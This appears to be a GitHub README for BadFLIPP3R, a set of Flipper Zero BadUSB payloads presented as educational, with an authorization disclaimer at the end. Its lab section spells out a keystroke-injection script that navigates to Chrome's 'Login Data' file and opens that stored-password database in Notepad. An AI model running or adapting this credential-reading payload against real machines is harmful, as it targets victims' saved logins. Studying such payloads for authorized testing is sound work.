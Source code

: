 <h1 align="center"><strong>BAD FLIPP3R</strong></h1>

<div style="text-align: center; margin-bottom: 20px;">
  <img src="https://i.imgur.com/rH3qlFW.png" style="width: 364px; height: 249px; display: block; margin: 0 auto;">
</div>




<p id="description"><strong>BadFLIPP3R</strong> is an advanced payload designed for use with the Flipper Zero device. This project is intended exclusively for educational purposes and to deepen understanding of advanced USB-based attacks. The primary goal of <strong>BadFLIPP3R</strong> is to provide cybersecurity professionals, researchers, and enthusiasts with a tool to study, practice, and enhance their knowledge of various types of USB-based exploits.</p>

...................................  
<h2>🧐 Features</h2>

Here're some of the project's best features:

*   Educational Focus: All payloads are crafted to serve as learning tools demonstrating different techniques and methods used in USB attacks.
*   Advanced Payloads: Explore complex payloads designed to mimic real-world attack scenarios.
*   Flipper Zero Compatible: Optimized for seamless integration and execution on the Flipper Zero device.
*   Comprehensive Documentation: Detailed guides and explanations accompany each payload aiding in the educational process.

<h2>🛠️ Installation Steps:</h2>

<p>1. Clone the repository:</p>

```
git clone https://github.com/Bulli77/BadFLIPP3R.git
```

<p>2. Transfer the desired payloads to your Flipper Zero device.</p>

<p>3. Follow the usage instructions provided in the documentation to execute the payloads.</p>

<h2>🍰 Contribution Guidelines:</h2>

Contributions are welcome! If you have any payloads improvements or ideas to enhance this project please feel free to open an issue or submit a pull request.

 
  
...................................
<h2>💻 Lab </h2>

Payload: Extracting Chrome Passwords
This payload script showcases a sequence of automated commands to open Google Chrome, navigate to the profile directory, and attempt to read the "Login Data" file where Chrome stores passwords.


1. **Launching Google Chrome:**
   - `GUI r`: Opens the Run dialog.
   - `STRING chrome.exe`: Types `chrome.exe` to run Google Chrome.
   - `DELAY 1000`: Waits 1 second for Chrome to launch.

2. **Navigating to the Chrome Profile Directory:**
   - `GUI r`: Opens the Run dialog again.
   - `STRING %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default`: Types the path to Chrome's default profile directory.
   - `ENTER`: Opens the specified directory.
   - `DELAY 1000`: Waits 1 second for the directory to open.

3. **Opening the Directory in Explorer:**
   - `STRING explorer`: Opens the Windows Explorer to view the directory.
   - `ENTER`: Confirms the command.
   - `DELAY 1000`: Waits 1 second for the Explorer window to open.

4. **Navigating to the Login Data File:**
   - `STRING %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data`: Types the full path to the Login Data file.
   - `ENTER`: Navigates to the specified file.
   - `DELAY 1000`: Waits 1 second for the file to be accessed.

5. **Reading the Login Data File:**
   - `STRING notepad %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data`: Opens the Login Data file in Notepad.
   - `ENTER`: Confirms the command.
   - `DELAY 1000`: Waits 1 second for Notepad to open the file.


...................................
<h2>🛡️ License:</h2>

This project is licensed under the his project is licensed under the MIT License. See the LICENSE file for details.

...................................

<h2>👍Like my work?👨‍💻</h2>

The <strong>BadFLIPP3R</strong> project is intended solely for educational purposes. It is designed to help security professionals and enthusiasts understand identify and mitigate potential security vulnerabilities in a controlled environment. Any use of <strong>BadFLIPP3R</strong> outside of these educational and research purposes is strictly prohibited. Unauthorized use of this tool on any systems or networks without explicit permission from the owner is illegal and unethical. Such actions may result in severe legal consequences. The developers and contributors of <strong>BadFLIPP3R</strong>  do not condone or support any form of unauthorized or malicious use of this tool. Users must only deploy <strong>BadFLIPP3R</strong>  within their own systems or environments where they have explicit authorization to conduct security testing. Performing any tests or executing payloads on third-party systems networks or devices without prior consent is a violation of ethical guidelines and legal standards. By using this project you agree to adhere to these terms and use <strong>BadFLIPP3R</strong>  responsibly and ethically. Failure to comply with these conditions may lead to serious repercussions including but not limited to legal action academic penalties and professional disciplinary measures.
